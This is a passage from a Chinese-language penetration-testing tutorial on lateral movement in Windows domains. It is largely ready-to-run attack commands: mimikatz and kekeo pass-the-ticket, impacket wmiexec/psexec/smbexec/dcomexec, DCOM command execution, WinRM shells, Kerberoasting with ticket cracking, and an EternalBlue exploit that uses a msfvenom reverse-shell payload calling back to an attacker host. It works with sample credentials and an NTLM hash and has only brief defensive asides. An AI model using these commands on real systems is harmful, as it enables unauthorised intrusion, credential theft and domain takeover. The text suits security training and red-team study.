dir \\WIN-2I68KJFQ1U4\c$
```




#### 哈希传递攻击防范

		微软在2014年5月发布了KB2871997。该补丁禁止通过本地管理员权限与远程计算机进行连接，其后果就是：无法通过本地管理员权限对远程计算机使用PsExec、WMI、smbexec、schtasks、at，也无法访问远程主机的文件共享等。
		在实际测试中，更新KB2871997后，发现无法使用常规的哈希传递方法进行横向移动，但Administrator账号（SID为500）例外——使用该账号的散列值依然可以进行哈希传递
		即使计算机将administrator更改名称后，也不会影响到SID的值。所以，如果攻击者使用SID为500的账号进行横向移动，就不会受到KB2871997的影响。在实际网络维护中需要特别注意这一点


### 票据传递攻击（PTT）

#### 使用mimikatz进行票据传递

```
  要想使用mimikatz的哈希传递功能，必须具有本地管理员权限。mimikatz同样提供了不需要本地管理员权限进行横向渗透的方法，例如票据传递（Pass The Ticker，PTT）。
```

**1、用mimikatz将内存中的票据导出**

```
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"  //执行后会在当前目录生成多个服务票据文件，例如krbtgt、cifs等。
```



**2、用mimikatz清除内存中的票据**

```
mimikatz "kerberos::purge" "exit"
```



**3、将票据导入内存**

```
mimikatz "kerberos::ptt [0;832f2]-2-0-40e10000-Administrator@krbtgt-ZZX.COM.kirbi"
```



**4、将高权限的票据注入内存后，列出远程计算机系统的文件目录**

```
dir \\远程计算机主机名\c$
```




#### 使用kekeo进行票据传递

```
  票据传递也可以使用gentilkiwi开源的另一款工具kekeo实现。kekeo需要使用域名、用户名、NTLM Hash三者配合生成票据，再将票据导入，从而直接连接远程计算机。并且kekeo不需要本地管理员权限即可完成横向移动渗透。
```

**1、运行kekeo，在当前目录下生成一个票据文件**

```
kekeo "tgt::ask /user:administrator /domain:zzx.com /ntlm:3b1da22b1973c0bb86d4a9b6a9ae65f6" "exit"
```



**2、用windows自带命令清除内存中的其他票据（否则可能会导致票据传递失败）**

```
klist purge
```



**3、使用kekeo将票据文件导入内存**

```
kekeo "kerberos::ptt [0;832f2]-2-0-40e10000-Administrator@krbtgt-ZZX.COM.kirbi"
```



**4、将高权限的票据注入内存后，列出远程计算机系统的文件目录**

```
dir \\远程计算机主机名\c$
```




#### 票据传递攻击防范

* 使用dir命令时，务必使用主机名。如果使用IP地址，就会导致错误。
* 票据文件注入内存的默认有效时间为10小时
* 在目标机器上不需要本地管理员权限即可进行票据传递


### WMIHACKER横向移动(135端口)

```
  WMIHACKER是一款用于远程主机连接工具，通过135端口进行命令执行，执行结果读取以及无需445端口进行文件传输。
```

**下载链接**：https://github.com/360-Linton-Lab/WMIHACKER

**主要功能：**

* 命令执行与结果读取
* 文件上传
* 文件下载

**支持系统：**

* Windows 2003后所有系统

**使用方法：**

执行模式包括**/cmd、/shell、/upload、/download**分别指执行命令、模拟shell、上传文件、下载文件

/cmd模式中1代表获取命令执行结果，0代表不获取结果，比如执行命令为”echo 1 > test.exe”这类需要重定向或其他不需要输出的命令选择值应该为0

#### **远程命令执行**

```
cscript //nologo WMIHACKER_0.6.vbs /cmd 192.168.23.130 administrator "Test123" "whoami" 1
```



#### **获取交互式Shell**

```
cscript //nologo WMIHACKER_0.6.vbs /shell 192.168.23.130 administrator "Test123" 
```



#### **无命令回显**

```
cscript //nologo WMIHACKER_0.6.vbs /cmd 192.168.23.130 administrator "Test123" "echo whoami > c:\test.txt" 0
cscript //nologo WMIHACKER_0.6.vbs /cmd 192.168.23.130 administrator "Test123" "type c:\test.txt" 1
```



#### **文件上传**

**复制本机test.txt文件到目标主机C盘下**

```
cscript //nologo WMIHACKER_0.6.vbs /upload 192.168.23.130 administrator "Test123" "c:\test.txt" "c:\test.txt"
```



#### **文件下载**

**将远程主机C:\test.txt文件复制到当前主机下C盘下**

```
cscript //nologo WMIHACKER_0.6.vbs /download 192.168.23.130 administrator "Test123" "c:\test.txt" "c:\test.txt"
```


### WMI横向移动（135端口）

```
	WMI的全名为“Windows Management Instrumentation”。从Windows 98开始，Windows操作系统都支持WMI。WMI是由一系列工具集组成的，可以通过/node选项使用端口135上的远程过程调用(RPC)进行通信以进行远程访问，它允许系统管理员远程执行自动化管理任务，例如远程启动服务或执行命令。
 	“自从PsExec在内网中被严格监控后，越来越多的反病毒厂商将PsExec加入了黑名单，于是攻击者逐渐开始使用WMI进行横向移动。通过渗透测试发现，在使用wmiexec进行横向移动时，Windows操作系统默认不会将WMI的操作记录在日志中，同时攻击脚本无需写入到磁盘，具有极高的隐蔽性。因为在这个过程中不会产生日志，所以，对网络管理员来说增加了攻击溯源的成本。而对攻击者来说，其恶意行为被发现的可能性有所降低、隐蔽性有所提高。由此，越来越多的APT开始使用WMI进行攻击。
```

#### 系统自带wmic执行命令

```
  在用wmic远程执行命令时，需要远程系统启动windows management instrumentation服务（目标服务器需开放135端口，wnic会以管理员权限在远程系统中执行命令）。如果目标服务器开启了防火墙，wmic将无法进行连接。此外，wmic命令无回显，需要使用ipc$和type命令来读取信息。
```

**1、使用目标系统的cmd.exe执行一条命令，将执行结果保存到c盘ip.txt文件中**

```
wmic /node:192.168.23.130 /user:admin /password:Password@123 process call create "cmd.exe /c ipconfig > c:\ip.txt" 
```



**2、建立IPC$连接，使用type命令读取命令执行结果**

```
net use \\192.168.23.130\ipc$ "Test123" /user:administrator   //建立ipc连接
type \\192.168.23.130\c$\ip.txt   //读取命令执行结果文件
```




#### impacket工具包中的wmiexec使用

下载链接：https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

##### 获取目标系统的shell

```
python3 wmiexec.py zzx.com/administrator:Test123@192.168.23.130   //该方法主要是从Linux向windows横向渗透时使用
```




#### wmiexec.vbs

```
  wmicexec.vbs脚本通过vbs调用wmi来模拟psexec的功能。wmiexec.vbs可以在远程系统中执行命令并进行回显，获取远程主机的半交互式shell。
```

##### 获取shell

```
cscript.exe //nologo wmiexec.vbs /shell 192.168.23.130 administrator Test123
```



##### **执行单条命令**

```
cscript.exe wmiexec.vbs /cmd 192.168.23.130 administrator Test123 "ipconfig"  //对于运行时间较长的命令，例如ping和systeminfo命令，需要添加"-wait 5000"或者更长的时间参数。
```




#### Invoke-WmiCommand[PowerSploit工具包中]

**下载地址：https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-WmiCommand.ps1**

将Invoke-WmiCommand.ps1导入系统后，在powershell中执行下列命令

```
import-module .\Invoke-WmiCommand.ps1
$User="administrator"
$Password= ConvertTo-SecureString -String "Test123" -AsPlainText -Force
$Cred =New-Object -TypeName System.Management.AutoMation.PSCreDential -ArgumentList $User,$Password 
$Remote=Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName 192.168.23.130
$Remote.PayloadOutput
```




#### Invoke-WMIMethod[Powershell自带]

```
  利用 PowerShell 自带的 Invoke-WMIMethod，可以在远程系统主机上执行命令和指定程序
```

##### 执行程序

```
#目标系统用户名
$User = "zzx.com\administrator"
#目标系统密码
$Password= ConvertTo-SecureString -String "Test123" -AsPlainText -Force
#账号密码整合，导入Credential
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User , $Password
#远程运行计算器程序
Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -ComputerName "192.168.23.130" -Credential $Cred
```





### PsExec（445端口）

```
  psexec是sysinternals的一款强大的软件，通过他可以提权和执行远程命令，对于批量大范围的远程运维能起到很好的效果，尤其是在域环境下。远程原理是通过管道在远程目标服务器上创建一个psexec服务，并在本地磁盘中生成一个名为“PSEXESVC"的二进制文件，然后，通过PsExec服务运行命令，运行结束后删除服务。
```

#### PsTools中的PsExec

下载链接：http://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec

##### 有建立ipc$连接的情况下连接目标主机

```
psexec.exe -accepteula \\192.168.23.130 -s cmd.exe    //获取system权限的shell
-accepteula 第一次运行psexec会弹出确认框，加上该参数不弹
-s 以system权限运行远程进程
```



##### 未建立ipc$连接的情况下连接目标主机

```
psexec.exe -accepteula \\192.168.23.130 -u administrator -p Test123 -s cmd.exe
```




#### Metasploi中的psexce模块

```
(1)exploit/windows/smb/psexec（该模块生成的Payload是exe程序的）
(2)exploit/windows/smb/psexec_psh(powershell版本，免杀效果要比Psexec模块好)
(3)auxiliary/admin/smb/psexec_command(Psexec执行命令模块，可以利用执行恶意代码)
```

##### psexec模块利用

```
use exploit/windows/smb/psexec
set rhosts 192.168.23.130
set lhost 192.168.23.1
set smbuser administrator
set smbpass Test123
exploit
```




#### Impacket中的Psexec.py

下载链接： https://github.com/CoreSecurity/impacket

```
python psexec.py zzx.com/administrator:Test123@192.168.23.130
```




#### 注意事项

* 如果是工作组环境，则必须使用administrator管理员连接，使用普通用户连接会提示：登录失败：未授予用户在此计算机上的请求登录类型
* 如果是域环境，连接普通域内主机可以用普通域用户，连接域控必须要域管理员

* 需要远程系统开启admin$共享（默认是开启的）
* 在使用ipc$连接目标系统后，不需要输入账号和密码
* 在使用PsExec执行命令时，会在目标系统中创建一个Psexec服务。命令执行后，Psexec服务将被自动删除。由于创建或删除服务时产生了大量的日志，可
* 在进行攻击朔源时通过日志反推攻击流程。
* 使用PsExec可以直接获取到System权限的交互式Shell


### Atexec.py(445端口)

```
  Atexec.py脚本可以帮助攻击者通过CIFS主机使用的基于DCE/RPC的协议远程访问受害主机，以访问/控制AT-Scheduler服务并执行任意系统命令。
```

下载地址：https://github.com/CoreSecurity/impacket

#### 远程执行命令

##### 使用明文密码

```
python3 atexec.py zzx.com/administrator:Test123@192.168.23.130 whoami
```



##### 使用NTLM hash值

```
python3 atexec.py -hashes :3b1da22b1973c0bb86d4a9b6a9ae65f6 zzx.com/administrator@192.168.23.130 whoami
```




### smbexec横向移动(445端口)

```
  smbexec可以通过文件共享在远程系统中执行命令。目标主机需要开启C$共享，依赖于445端口。
```

#### Impacket工具包中的smbexec.py

```
python3 smbexec.py zzx.com/administrator:Test123@192.168.23.130
```



#### Linux跨Windows远程命令执行

smbexec 工具包下载地址：https://github.com/brav0hax/smbexec.git

下载安装运行脚本：

```
git clone https://github.com/brav0hax/smbexec.git
cd smbexec/
chmod +x install.sh && ./install.sh
```

安装时需要选择操作系统，根据自己情况选择就行，如果是 Kali 就选择 Debain，然后选择安装目录，直接回车默认/opt 目录即可。



安装完后，在终端里输入 smbexec 就会显示 smbexec 的主菜单，分别如下：



```text
1. System Enumeration   // 获取系统信息
2. System Exploitation  // 执行系统命令
3. Obtain Hashes        // 获取系统哈希
4. Options              // 一些其他操作
5. Exit                 // 退出
```

选择菜单 1 System Enumeration 有以下选项：

```text
1. Create a host list                 // 扫描目标 IP 段中存活的主机
2. Check systems for Domain Admin     // 获取目标系统中的管理员
3. Check systems for logged in users  // 获取当前登录目标系统的用户
4. Check systems for UAC              // 获取目标系统 UAC 的状态
5. Enumerate Shares                   // 获取目标系统中的网络共享目录
6. File Finder                        // 搜索目标系统中的敏感文件
7. Remote login validation            // 获取目标系统中远程登录的用户
8. Main menu                          // 返回主菜单
```

选择菜单 2 System Exploitation 有以下选项：

```text
1. Create an executable and rc script    // 生成一个 meterpreter Payload 并在目标系统中运行它
2. Disable UAC                           // 关闭远程主机的 UAC
3. Enable UAC                            // 开启远程主机的 UAC
4. Execute Powershell                    // 执行一个 PowerShell 脚本
5. Get Shell                             // 使用基于 PsExec 的方式获得目标系统的 Shell
6. In Memory Meterpreter via Powershell  // 通过 PowerShell 在内存中插入 Meterpreter Payload
7. Remote system access                  // 远程访问系统
8. Main menu                             // 返回主菜单
```

选择菜单 3 Obtain Hashes 有以下选项：

```text
1. Domain Controller            // 获取域控哈希
2. Workstation & Server Hashes  // 获取本地哈希
3. Main menu                    // 返回主菜单
```

选择菜单 4 Options 有以下选项：

```text
1. Save State            // 保存当前状态
2. Load State            // 加载以前保存的状态
3. Set Thread Count      // 设置线程数
4. Generate SSL Cert     // 生成 SSL 证书
5. Enter Stealth Mode    // 进入安静模式
6. About                 // 关于
7. Main menu             // 返回主菜单
```

##### **获取目标系统 UAC 的状态**



##### 获取本地哈希






### 利用DCOM进行横向渗透

#### COM描述

```
  COM即组件对象模型(Component Object Model，COM) ，是基于 Windows 平台的一套组件对象接口标准，由一组构造规范和组件对象库组成。COM是许多微软产品和技术，如Windows媒体播放器和Windows Server的基础。
  一般的对象是由数据成员和作用在其上的方法组成，而组件对象和一般对象虽有相似性，但又有较大不同。组件对象不使用方法而用接口来描述自身。接口被定义为“在对象上实现的一组语义上相关的功能”，其实质是一组函数指针表，每个指针必须初始化指向某个具体的函数体，一个组件对象实现的接口数量没有限制。
```

#### DCOM描述

```
  DCOM（分布式组件对象模型）是微软基于组件对象模型（COM）的一系列概念和程序接口，它支持不同的两台机器上的组件间的通信，不论它们是运行在局域网、广域网、还是Internet上。利用这个接口，客户端程序对象能够向网络中另一台计算机上的服务器程序对象发送请求。
  DCOM是COM（组件对象模型）的扩展，它允许应用程序实例化和访问远程计算机上COM对象的属性和方法。DCOM 使用远程过程调用（RPC）技术将组件对象模型（COM）的功能扩展到本地计算机之外，因此，在远程系统上托管COM服务器端的软件（通常在DLL或exe中）可以通过RPC向客户端公开其方法。
  攻击者可使用 DCOM 进行横向移动，通过 DCOM，攻击者可在拥有适当权限的情况下通过 Office 应用程序以及包含不安全方法的其他 Windows 对象远程执行命令。
  使用DCOM进行横向移动的优势之一在于，在远程主机上执行的进程将会是托管COM服务器端的软件。例如我们滥用ShellBrowserWindow COM对象，那么就会在远程主机的现有explorer.exe进程中执行。对攻击者而言，这无疑能够增强隐蔽性，由于有大量程序都会向DCOM公开方法，因此防御者可能难以全面监测所有程序的执行。
```

#### 在本地通过DCOM执行命令

测试环境：Windows Server 2008

##### 1. 获取本地DCOM程序列表

在powershell中执行如下命令获取DCOM程序列表：

```
Get-CimInstance Win32_DCOMApplication		//Windows2012系统及以上
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication   //Windows2012系统及以下
```



##### 2. 本地使用DCOM执行任意命令

我们在获取DCOM应用程序的时候，遇到了一个MMC Application Class（MMC20.Application）：

```
 Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication | findstr "MM"
```



这个COM对象可以编程MMC管理单元操作的组件脚本。我们在本地启动一个管理员权限的powershell，执行如下命令通过PowerShell与DCOM进行交互，创建一个“MMC20.Application”对象的实例（我们只需要提供一个DCOM ProgID和一个IP地址，就返回一个COM对象的实例）：

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))
```

获得COM对象的实例后，我们还可以执行如下命令枚举这个COM对象中的不同方法和属性：

```
$com.Document.ActiveView | Get-Member   //获得"MMC20.Application"支持的操作
```



如上图，可以发现该对象有一个 ExecuteShellCommand 方法，可用来执行命令。然后再通过ExecuteShellCommand执行命令，这里启动计算器：

```
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimized")    // 启动计算器
```


如上图所示，本地命令执行成功。

除了MMC20.Application，还有ShellWindows、ShellBrowserWindow、Excel.Application以及Outlook.Application等等都可以为我们所利用。

我们通过MMC20.Application的ExecuteShellCommand方法在本地运行了一个“计算器”程序。如果我们提供一个远程主机的IP，便可以使用 `[activator]::CreateInstance([type]::GetTypeFromProgID(ProgID,IP))`或 `[Activator]::CreateInstance([Type]::GetTypeFromCLSID(CLSID,IP))`命令通过Powershell与远程DCOM进行交互，只需要提供DCOM ProgID和对方的IP地址，就会向对方提供该DCOM对象的实例，然后就可以利用这个DCOM应用程序和ExecuteShellCommand方法来在对方目标主机上执行命令了。如果攻击者把“计算器”程序换成恶意的payload，就会对系统安全造成威胁。下面进行演示使用DCOM对远程主机执行命令。

#### 使用DCOM对远程主机执行命令

下面通过几个实验来演示如何使用DCOM在远程主机上面执行命令。在使用该方法时，需要具有以下条件：

- 具有管理员权限的PowerShell
- 可能需要关闭目标系统的防火墙。
- 在远程主机上执行命令时，必须使用域管的administrator账户或者目标主机具有管理员权限的账户

实验拓扑图：



如图中，右侧是一个内网环境，域名为zzx.com，有两台机器：Windown 2008（跳板机）、Windows Server 2012（DC）。

Windows Server 2012（192.168.23.130）为域控制器（机器名为WIN-ENQBK7DILQE），假设攻击者已经获得了域成员服务器（Windows 2008）的一个管理员权限的meterpreter，需要进一步横向渗透去拿下内网的其他机器。

**域成员服务器（Windows 2018）：**

- IP地址：192.168.23.128
- 用户名：Aministrator
- 用户名：Aministrator
- 密码：Password@123

**域控制器DC（Windows Server 2012）：**

- IP地址：192.168.52.130
- 用户名：administrator
- 密码：Test123

**以下三种方法均需先IPC$连接**

```
net use \\192.168.23.130\ipc$ "Test123" /user:zzx.com\administrator
```



##### 1、调用MMC20Application远程命令执行

需要使用对方主机管理员账号，并且对方主机需要关闭防火墙

```
$com=[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.23.130"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimzed")
```



##### **2、调用9BA05972-F6A8-11CF-A442-00A0C90A8F38远程执行命令**

适用于Windows7-10，Windows Server 2008-Windows Server 2016

```
$com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.23.130")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.item()
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```



##### **3、调用C08AFD90-F2A1-11D1-8455-00A0C91F3880远程执行命令**

该方法不适用于Windows 7，适用域Windows 10和Windows 2012 R2

```
$com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"192.168.23.130")
$obj = [System.Activator]::CreateInstance($com)
$obj.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```



#### impacket下的dcomexec.py

##### **1、使用明文密码连接执行命令**

```
python3 dcomexec.py  administrator:Test123@192.168.23.130  whoami
```



##### **2、使用Hash值连接执行命令**

```
python3 dcomexec.py administrator:@192.168.23.130 whoami -hashes aad3b435b51404eeaad3b435b51404ee:3b1da22b1973c0bb86d4a9b6a9ae65f6
```



##### **3、获取Shell**

```
python3 dcomexec.py  administrator:Test123@192.168.23.130
```

执行命令时，目标主机桌面会闪框




### 永恒之蓝(MS17-010 445端口)

```
##metasploit
use auxiliary/scanner/smb/smb_ms17_010   //检查模块，允许通过Socks代理接入到内网中扫描
use exploit/windows/smb/ms17_010_eternalblue   //攻击模块。该模块的优点是不需要命名管道，但是容易造成目标蓝屏，实际利用中不建议使用
use exploit/windows/smb/ms17_010_psexec  //攻击模块。该模块相比ms17_010_eternalblue模块更稳定一些，但是需要命名管道，利用中经常会出现找不到管道名的情况，可以通过auxiliary/scanner/smb/pipe_auditor 模块扫描目标可用的管道名设置NAMEDPIPE参数
use auxiliary/admin/smb/ms17_010_command //攻击模块。该模块相比其他模块更稳定，但是需要命名管道。其优点是不容易被杀毒软件拦截，在实战中可优先选择
```

#### MSF中ms17_010_command模块利用

```
use auxiliary/admin/smb/ms17_010_command
set rhosts 192.168.23.128
set smbuser administrator
set ComMAND whoami
exploit
```


#### ms17-010 python脚本攻击

下载地址：https://github.com/helviojunior/MS17-010

**1、克隆项目代码到本地**

```
git clone https://github.com/helviojunior/MS17-010.git
```



**2、用msfvenom生成一个exe反弹Shell木马程序**

```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.23.1 lport=4444 -f exe > shell.exe
```



**3、运行nc监听4444端口**

```
nc -lvp 4444
```



**4、运行漏洞利用，成功反弹Shell**

```
python2 send_and_execute.py 192.168.23.131 shell.exe
```




### WinRM横向移动(5985/5986端口)

```
	WinRM是一个命令行工具，使管理员能够使用WS-Management协议远程执行CMD.exe命令。该规范描述了一种基于SOAP的通用协议，用于管理系统，例如PC、服务器、设备、Web 服务、其他应用程序和其他可管理实体。它用于HTTP传输的端口为 5985，用于HTTPS传输的端口为 5986。
	在Windows操作系统的服务器和客户端版本上，Enable-PSRemoting允许管理员通过WinRM服务使用Powershell访问私有和域网络的远程shell。
	Winrm1.1版已在Windows Vista和Windows Server 2008中找到。其2.0版已在Windows7和Windows Server 2008 R2中找到，最新的3.0版已预装在Windows 8 和 Windows 2012 Server中。在Windows 2012版本以上默认启用Winrm服务
```

#### 实验环境

Windows Server 2008服务端：192.168.100.129

Windows 7 客户端：192.168.100.130

Kali Linux：192.168.100.1

#### **WinRm配置**

**1、在Windows 2008服务端配置WinRM**

```
Enable-PSRemoting –force 
winrm quickconfig -transport:http
Set-Item wsman:\localhost\client\trustedhosts *  
Restart-Service WinRM
```



**2、Windows7 客户端测试连接Windows 2008服务端：**

```
test-wsman -computername "192.168.100.129"
```



如果返回协议和产品的版本等信息，说明可以进行连接。

#### **利用方法**

##### Nmap检测

通过nmap扫描5985和5986端口来判断是否开启了WinRM服务

```
nmap -p 5986,5985 192.168.100.129
```



也可以使用其他端口扫描工具对5985，5986端口扫描检测服务是否开启

##### **使用winrs.exe来执行远程命令利用(系统自带)**

**远程执行命令**

```
winrs -r:192.168.100.129 -u:administrator -p:Test123 whoami
```



**远程打开cmd交互**

```
winrs -r:192.168.100.129 -u:administrator -p:Test123 cmd
```



Winrs事件以Microsoft-Windows-WinRM / Operational（事件ID 91）记录在远程主机上。

##### Metasploit

```
auxiliary/scanner/winrm/winrm_auth_methods   //扫描发现启用了WinRM服务的系统及其支持的身份验证协议
auxiliary/scanner/winrm/winrm_login 		//如果已获取本地管理员凭据，则可以使用这些凭据通过WinRM服务与其他主机进行身份验证。
auxiliary/scanner/winrm/winrm_cmd			//通过WinRM服务执行任意命令
exploit/windows/winrm/winrm_script_exec		//通过WinRM服务执行任意代码，可用于横向移动到共享相同本地管理员帐户的主机中。利用后，模块将尝试修改PowerShell执行策略以允许执行未签名的脚本。然后，将PowerShell脚本写入磁盘并自动执行以返回Meterpreter会话。
```

##### powershell

**远程命令执行**

```
invoke-command -computername 192.168.100.129 -Credential administrator -command {whoami}
```



**远程命令执行**

```
invoke-command -computername 192.168.100.129 -Credential administrator -ScriptBlock {whoami}
```



**打开cmd交互**

```
Enter-PSSession -computername 192.168.100.129 -Credential administrator
```



##### **通过 Ruby 脚本连接到远程 Shell**

**脚本内容：**

```
require 'winrm'

conn = WinRM::Connection.new(
  endpoint: 'http://192.168.100.129:5985/wsman',
  user: 'administrator',
  password: 'Test123',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```

**连接到远程Shell**

```
gem install winrm
winrm ruby winrm-shell.rb
```



##### **通过 Evil-WinRM 连接远程 Shell**

**1、Kali Linux安装Evil-WinRM** 

```
sudo gem install evil-winrm
```



**2、连接远程Shell**

```
evil-winrm -i 192.168.100.129 -u administrator -p "Test123"
```




### SPN在域环境的应用

```
  Windows域环境是基于微软的活动目录服务工作的，它是网络系统环境中将物理位置分散、所属部门不同的用户进行分组，集中资源，有效地对资源访问控制权限进行细粒度的分配，提高了网络环境的安全性及网络资源统一分配管理的便利性。在域环境中运行的大量应用包含了多种资源，为资源的合理分组、分类和再分配提供了便利。微软给域内的每种资源分配了不同的服务主题名称（Service Principal Name,SPN）
```

#### SPN扫描

##### **SPN相关概念**

- 在使用Kerberos协议进行身份验证的网络中，必须在内置账号或者用户账号下为服务器注册SPN。对于内置账号，SPN将自动进行注册，但是，如果在域用户账号下运行服务，则必须为要使用的账号手动注册SPN。因为域环境中的每台服务器都需要在Kerberos身份验证服务器中注册SPN，所以攻击者会直接向域控制器发送查询请求，获取其需要的服务器的SPN，从而知晓其需要使用的服务资源在那台机器上。
- Kerberos身份验证使用SPN将服务实例与登录账号关联起来。如果域中的计算机上安装了多个服务实例，那么每个实例都必须有自己的SPN。如果客户端可能使用多个名称进行身份验证，那么给定的服务实例可以由多个SPN。例如，SPN总是包含运行的服务实例的主机名称，所以，服务实例可以为其所在主机的每个名称或别名注册一个SPN。
- 根据Kerberos协议，当用户输入自己的账号和密码登录活动目录时，域控制器会对账号和密码进行验证。验证通过后，密钥分发中心(KDC)会将服务授权的票据(TGT)发送给用户。
- 举个例子：当用户需要访问MySQL服务时，系统会以当前用户身份向域控制器查询SPN为"MySQL"的记录。找到记录后，用户会再次与KDC通信，将KDC发放的TGT作为身份凭据发给KDC，并将需要访问的SPN发给KDC，KDC的身份验证服务(AS)对TGT进行解密。确认无误后，由TGS将一张允许该SPN所对应的服务的票据和该SPN所对应的服务的地址发给用户。用户使用该票据即可访问MySQL服务。

 SPN命令格式：

```
SPN = servcieclass "/" hostname [":"port] ["/" servicename]
```

* serviceclass：服务组件的名称
* hostname：以"/"与后面的名称分割，是计算机的FQDN（全限定域名，同时带有计算机名和域名）
* port：以冒号分隔，后面的内容为该服务监听的端口号
* servicename：一个字符串，可以是服务的专有名称（DN），objectGuid，internet主机名或限定域名


##### 常见的SPN服务

MSSQL 服务 

```undefined
MSSQLSvc/DBServer.zzx.com:1433
```

Exchange 服务

```undefined
exchangeMDB/ExServer.zzx.com
```

RDP 服务

```undefined
TERMSRV/ExServer.zzx.com
```

WSMan/WinRM/PSRemoting 服务

```undefined
WSMAN/ExServer.zzx.com
```


##### SPN 扫描脚本

```
  当计算机加入域时，主SPN会自动添加到域的计算机账号的SericesPrincipalName属性中。在安装新的服务后，SPN也会被记录在计算机账号的相应属性中。
  SPN扫描也称为"扫描kerberos服务实例名称"。在活动目录中发现服务的最佳方法就是SPN扫描。SPN扫描通过请求特定SPN类型的服务主体名称来查找服务。与网络端口扫描相比,SPN扫描的主要特点是不需要通过连接网络中的每个IP地址来检查服务端口（不会因触发到内网中的IPS、IDS等设备的规则而产生大量的警告日志）。因此SPN查询是kerberos票据行为的一部分，所以检测难度较大。
```

###### Windows系统自带setspn工具

```
setspn -T zzx.com -q */*
```



###### Powershell-AD-Recon工具包

Powershell-AD-Recon工具包提供了一系统服务与服务登录账号和运行服务的主机之间的对应关系，这些服务包括但不限于MSSQL、Exchage、RDP、WinRM。

下载地址：https://github.com/PyroTek3/PowerShell-AD-Recon

（1）利用SPN发现域中所以的MSSQL服务

```
Import-Module .\Discover-PSMSSQLServers.ps1
Discover-PSMSSQLServers
```


（2）扫描域中所有的SPN信息

```
Import-Module .\Discover-PSInterestingServices.ps1
Discover-PSInterestingServices
```



###### GetUserSPNs.ps1

**下载地址：https://github.com/nidem/kerberoast**

```
.\GetUserSPNs.ps1
```



###### PowerView.ps1

下载地址：https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

```
import-module .\PowerView.ps1
Get-Netuser -SPN
```




#### Kerberoast攻击分析与防范

```
  Kerberoast是一种针对kerberos协议的攻击方式。在因为需要使用某个特定资源而向TGS发送kerberos服务票据的请求时，用户首先需要使用具有有效身份权限的TGT向TGS请求相应服务的票据。当TGT被验证有效且具有该服务权限时，会向用户发送一张票据。该票据使用与SPN相关联的计算机服务账号NTLM Hash(RC4_HMAC_MD5),也就是说，攻击机会通过kerberoast尝试使用不同的NTLM Hash来打开该kerberos票据。如果攻击者使用的NTLM Hash是正确的，kerberos票据就会被打开，而该NTLM Hash对应于该计算机服务账号的密码。
  在域环境中，攻击机会通过kerberoast使用普通权限在活动目录中将计算机服务账号的凭据提取出来。因为在使用该方法时吗，大多数操作都是离线完成的，不会向目标系统发现任何信息，所有不会引起安全设备的告警。又因为大多数网络的域环境策略不够严格（没有给计算机服务账号设置过期时间；计算机权限过高；计算机服务账号的密码域普通域用户账号密码相同），所以，计算机服务账号的密码很容易受到kerberoast攻击的影响。
```

##### 实验一：配置Mssql服务，破解该服务的票据

（1）手动注册SPN

输入如下命令，手动为MSSQL账号注册SPN

```
setspn -A MSSQLSvc/win2008.test.org:1433 mssql
```



（2）查看用户所对应的SPN

 ```
 setspn -L test.org\mssql
 ```



（3）使用adsiedit.msc查看用户SPN及其他高级属性



（4）配置指定服务的登录权限



（5）修改加密类型

因为kerberos协议的默认加密方式为AES256_HMAC，而通过tgsrepcrack.py无法破解该加密方式，所以，攻击者会通过服务器组策略将加密方式设置为RC4_HMAC_MD5，命令如下



（6）请求SPN kerberos票据

打开powershell，输入如下命令

```
Add-Type -AssemblyName System.IdentityModel
New-object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MsSqlSvc/win2008.test.org:1433"
```



（7）导出票据

在mimikatz中执行如下命令，将内存中的票据导出

```
kerberos::list /export
```



（8）使用Kerberoast脚本离线破解票据所对应账号的NTLMHash

**下载地址：https://github.com/nidem/kerberoast**

将MSSQL服务所对应的票据文件复制到KaliLinux中。
在Kerberoest中有一个名为gepeack.y的脚本文件，其主要功能是离线破解票据的NTLM Hash在Kai Linux中打开该脚本，在命令行环境中输人如下命令

```
python3 tgsrepcrack.py wordlist.txt Mssql.kirbi
```



如果破解成功，该票据所对应账号的密码将被打印在屏幕上。

##### 防范建议

* 防范Kerberosat攻击的最有效方法是：确保服务账号密码的长度超高25位；确保密码的随机性；定期修改服务账号的密码

* 如果攻击者无法将默认AES256_HMAC加密方式改为RC4_HMAC_MD5，就无法使用tgsrepcrack.py来破解密码

* 攻击者可以通过嗅探的方法抓取Kerberos TGT票据。因此，如果强制使用ASE256_HMAC方式对Kerberos票据进行加密，那么，即使攻击者获取了Kerberos票据，也无法将其破解，从而保证了活动目录的安全性


### 域内用户枚举和密码喷洒攻击(Password Spraying)

```
  在Kerberos协议认证的AS-REQ阶段，cname的值是用户名。当用户不存在时，返回包提示错误。当用户名存在，密码正确和密码错误时，AS-REP的返回包不一样。所有可以利用这点，对域内进行域用户枚举和密码喷洒攻击。
```

#### 域内用户枚举

当主机不在域内时，可以使用工具通过域内用户枚举来探测域内的用户

##### kerbrute枚举域用户

下载地址：https://github.com/ropnop/kerbrute/releases

```
